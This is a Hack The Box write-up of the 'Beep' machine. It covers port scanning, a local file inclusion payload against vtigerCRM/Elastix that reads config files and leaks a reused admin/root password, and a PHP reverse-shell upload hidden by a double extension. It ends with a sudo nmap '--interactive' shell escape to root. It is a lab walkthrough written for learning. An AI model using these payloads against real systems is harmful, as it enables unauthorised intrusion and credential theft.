 ```yaml
---
layout: PostSimple
date: 2019-12-01
title:     "Hack The Box - Beep"
tags: ['linux','easy','setuid','cve','lfi','file-upload-vuln']
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/1.png)

We are going to pwn Beep from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/5](https://www.hackthebox.eu/home/machines/profile/5)


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results
```bash
PORT      STATE SERVICE
22/tcp    open  ssh
25/tcp    open  smtp
80/tcp    open  http
110/tcp   open  pop3
111/tcp   open  rpcbind
143/tcp   open  imap
443/tcp   open  https
878/tcp   open  unknown
993/tcp   open  imaps
995/tcp   open  pop3s
3306/tcp  open  mysql
4190/tcp  open  sieve
4445/tcp  open  upnotifyp
4559/tcp  open  hylafax
5038/tcp  open  unknown
10000/tcp open  snet-sensor-mgmt


22/tcp    open   ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp open  smtp    Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|media device|PBX|WAP|printer|specialized
Running (JUST GUESSING): Linux 2.6.X|2.4.X (95%), Linksys embedded (95%), Osmosys embedded (94%), HP embedded (94%), Enterasys embedded (94%), Riverbed RiOS (93%), Gemtek embedded (93%)
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:2.6.27 cpe:/o:linux:linux_kernel:2.6.18 cpe:/h:linksys:wrv54g cpe:/o:linux:linux_kernel:2.4.32 cpe:/h:enterasys:ap3620 cpe:/o:riverbed:rios cpe:/h:gemtek:p360
Aggressive OS guesses: Linux 2.6.9 - 2.6.30 (95%), Linux 2.6.27 (likely embedded) (95%), Linux 2.6.18 (95%), Linux 2.6.20-1 (Fedora Core 5) (95%), Linux 2.6.30 (95%), Linux 2.6.5 (Fedora Core 2) (95%), Linux 2.6.5 - 2.6.12 (95%), Elastix PBX (Linux 2.6.18) (95%), Linksys WRV54G WAP (95%), Linux 2.6.27 (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host:  beep.localdomain
80/tcp    open   http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
110/tcp   open   pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS EXPIRE(NEVER) APOP UIDL RESP-CODES PIPELINING AUTH-RESP-CODE TOP LOGIN-DELAY(0) IMPLEMENTATION(Cyrus POP3 server v2) USER
111/tcp   open   rpcbind    2 (RPC #100000)
143/tcp   open   imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: ANNOTATEMORE ID ATOMIC OK LISTEXT URLAUTHA0001 Completed QUOTA IMAP4rev1 LIST-SUBSCRIBED SORT LITERAL+ X-NETSCAPE RIGHTS=kxte MAILBOX-REFERRALS CONDSTORE IMAP4 UIDPLUS IDLE SORT=MODSEQ MULTIAPPEND THREAD=ORDEREDSUBJECT THREAD=REFERENCES UNSELECT CHILDREN BINARY STARTTLS NAMESPACE NO RENAME ACL CATENATE
443/tcp   open   ssl/https?
|_ssl-date: 2019-12-01T13:40:51+00:00; +1h00m15s from scanner time.
878/tcp   open   status     1 (RPC #100024)
993/tcp   open   ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open   pop3       Cyrus pop3d
3306/tcp  open   mysql      MySQL (unauthorized)
4190/tcp  open   sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open   upnotifyp?
4559/tcp  open   hylafax    HylaFAX 4.3.10
5038/tcp  open   asterisk   Asterisk Call Manager 1.1
10000/tcp open   http       MiniServ 1.570 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=12/1%OT=22%CT=5%CU=35487%PV=Y%DS=2%DC=T%G=Y%TM=5DE3B55
OS:9%P=x86_64-pc-linux-gnu)SEQ(SP=CC%GCD=1%ISR=CC%TI=Z%CI=Z%II=I%TS=A)OPS(O
OS:1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11N
OS:W7%O6=M54DST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(R
OS:=Y%DF=Y%T=40%W=16D0%O=M54DNNSNW7%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=Y%DF=Y%T=40%W=16A0%S=O%A=S+%F=AS%O=M54DST11NW7%RD=0%
OS:Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)
```

## HTTP Enumeration

While checking the webpage , it is an ``Elastix Login page``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/2.png)

So I searched in Searchsploit but there is more exploit and I cant find any version of it in the webpage 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/3.png)

Lets start randomly and this one looks interesting 

> https://www.exploit-db.com/exploits/37637


``` /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action ```

This is an LFI exploit and it worked!
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/4.png)

And I found some credentials

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/5.png)

``` admin:jEhdIekWmdjE ```

Using the same LFI let's see ``/etc/password`` and found an user ``fanis``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/6.png)

We know the user so I tried to see the user flag
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/7.png)
And yeah, I got the user flag!!

Now Lets try to log in and see what in ``Elastix``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/8.png)
I cant find any vulnerabilities or any loop holes.

## Method 1 of getting Root

I checked if there is any other vulnerability available on other ports and It doesnt look like any so I just tried login with the creds we found from the LFI in ssh ```root:jEhdIekWmdjE```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/9.png)

We are root!

## Method 2 (File Upload Vulnerability)

From the LFI I came to know there is another login page ``/vtigercrm`` it is an ``vtigerCRM``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/10.png)

I tried login with the same creds we found before ``admin:jEhdIekWmdjE``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/11.png)
It looks like they use same creds for all xD

I found we can change the logo so we can try to upload our payload.
It is in Settings -> Company Details
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/12.png)

I uploaded my reverse shell as ``shell.php.jpg`` and intercept it with burp and then change the extension back to ``shell.php``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/13.png)

I changed the extension to ``.php`` and forwarded. 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/14.png)

I check the source code to see the location of the logo.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/15.png)
It is in ``/test/logo/``

So listening on my machine, I got the shell[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/16.png)

## Privilege Escalation

While checking ``sudo -l``[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/17.png)

User ``asterisk`` can run these without root permission so i chose ``nmap`` from this.

I searched in GTFOBins

>[https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)

So I tried it

```
nmap --interactive
nmap> !sh
```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-beep/18.png)

I'm Root now!


